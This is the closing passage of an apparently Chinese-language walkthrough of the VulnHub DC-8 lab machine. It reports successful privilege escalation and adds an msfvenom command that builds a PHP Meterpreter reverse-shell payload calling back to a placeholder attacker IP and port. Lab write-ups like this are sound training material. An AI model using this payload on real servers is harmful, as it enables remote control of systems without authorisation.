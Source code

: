 ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/15.png)

提权成功,感谢靶机作者 @DCUA7

---

# 补充

php 反弹 shell 那一步除了网上找到的 php 源码外,还可以直接回弹个 meterpreter shell,一条命令生成
```
msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
```

